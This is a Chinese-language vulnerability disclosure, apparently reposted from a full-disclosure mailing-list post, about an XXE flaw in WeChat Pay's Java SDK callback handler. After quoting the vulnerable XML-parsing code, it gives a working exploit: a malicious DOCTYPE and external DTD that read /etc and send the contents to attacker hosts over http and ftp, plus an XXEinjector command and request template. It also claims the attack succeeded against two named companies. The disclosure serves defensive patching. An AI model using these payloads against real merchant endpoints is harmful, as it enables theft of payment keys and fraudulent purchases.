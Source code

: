 漏洞信息来源：  
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)

> **受影响版本：**  
> JAVA SDK，WxPayAPI\_JAVA\_v3，建议使用了该版本的公司**进行异常支付排查**。

微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何信息。一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）

### 漏洞详情 {#toc-0}

The SDK  in this page:  [https://pay.weixin.qq.com/wiki/doc/api/jsapi.php](https://pay.weixin.qq.com/wiki/doc/api/jsapi.php)

```
chapter=11_1
   Just in java vision:
https://pay.weixin.qq.com/wiki/doc/api/download/WxPayAPI_JAVA_v3.zip
    or
https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view(
Backup ）


   README.md in  WxPayApi_JAVA_v3.zip,it show more details:

   notify code example:
    [
        String notifyData = "....";
        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);
//conver to map
        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
//do business logic
        }
        else {
         }

     ]
    WXPayUtil source code
   [

  public static Map<String, String> xmlToMap(String strXML) throws
Exception {
    try {
            Map<String, String> data = new HashMap<String, String>();
            /*** not disabled xxe *****/
            //start parse

            DocumentBuilderFactory documentBuilderFactory =
DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder =
documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes(
"UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);

           //end parse


            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx <nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert tomap. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }
    }

]
```

### 利用细节 {#toc-1}

```
Post merchant notification url with  payload:
```

```
<?xml version="1.0" encoding="utf-8"?>
<
!DOCTYPE root [  
<!ENTITY % attack SYSTEM "file:///etc/">
<!ENTITY % xxe SYSTEM "http://attacker:8080/shell/data.dtd";>
  %xxe;
]>

data.dtd:

<
!ENTITY % shell "
<
!ENTITY % upload SYSTEM 'ftp://attack:33/%attack;
'>">

%shell;
%upload;

or use  XXEinjector tool  【https://github.com/enjoiz/XXEinjector】

ruby XXEinjector.rb --host=attacker --path=/etc   --file=req.txt --ssl

req.txt :
POST merchant_notification_url HTTP/1.1
Host:  merchant_notification_url_host
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 57
Content-Type: application/x-www-form-urlencoded

XXEINJECT


In order to prove this, I got 2 chinese famous company:
   a、momo: Well-known chat tools like WeChat
   b、vivo ：China's famous mobile phone,that also famous in my country
```

## [微信支付SDK漏洞排查修复札记](https://mp.weixin.qq.com/s/IMlqJjltFiPlCjj7P_65Ww) {#activity-name}



